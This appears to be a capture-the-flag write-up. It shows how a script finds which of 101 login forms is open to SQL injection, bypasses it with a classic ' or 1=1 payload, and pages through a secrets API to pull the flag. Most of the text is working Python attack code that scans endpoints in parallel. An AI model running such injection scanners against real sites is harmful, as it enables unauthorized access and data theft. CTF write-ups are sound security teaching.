




# SQL 101
<p align="center">
    
</p>

Opening the webpage we are given 101 (!) login forms.

<p align="center">
    
</p>

Our first objective is to create a script which identifies which login form is vulnerable to a SQL-injection. One of my teammates wrote the following script using multiprocessing to find the correct form, which I then extended to solve the remaining of the challenge.
```python
from multiprocessing.dummy import Pool
import re 
import requests
import time

urlbase = "https://53kilomeddata-d6f0-allthoseforms.ept.gg"
mainpage_response = requests.get(urlbase + "/login").text
format = """<form method="post" action="/login/(.+)">"""
endpoints = re.findall(format, mainpage_response)

def pr(i, e):
    url = urlbase + "/login/" + e
    login_response = requests.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
    if "Invalid login credentials!" not in login_response.text:
        # TODO: Form is vulnerable

pool = Pool(50)
for i, e in enumerate(endpoints):
    pool.apply_async(pr, args=[i, e])
time.sleep(20)
```

When the login-form is bypassed with the SQL injection we are greeted with the following page, mentioning some API documentation located at `/api-docs` (href in html code).
<p align="center">
    
</p>

The `/api-docs` webpage shows the API documentation of the endpoint `/api/secrets`, where the flag most likely is located. All we need to do is query all the pages until we find the flag.
<p align="center">
    
</p>

Using the following script, `sql.py`, we search for the flag among the secrets:
```python
from multiprocessing.dummy import Pool
import re 
import requests
import time

urlbase = "https://53kilomeddata-d6f0-allthoseforms.ept.gg"
mainpage_response = requests.get(urlbase + "/login").text
format = """<form method="post" action="/login/(.+)">"""
endpoints = re.findall(format, mainpage_response)

def pr(i, e):
    url = urlbase + "/login/" + e
    login_response = requests.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
    if "Invalid login credentials!" not in login_response.text:
        # Create a session, or else we do not keep our authentication
        s = requests.Session()
        r = s.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
        for i in range(1, 100):
            r = s.get(urlbase + f"/api/secrets?page={i}&page_size=20")
            if "EPT" in r.text:
                res = r.json()
                for secret in res.get("secrets", []):
                    if "EPT" in secret.get("text", ""):
                        print(secret)
                        exit()

pool = Pool(50)
for i, e in enumerate(endpoints):
    pool.apply_async(pr, args=[i, e])
time.sleep(20)
```

At page 80, with id 1598, we find the flag.
```
$ python3 sql.py
{'id': 1598, 'text': 'EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}'}
```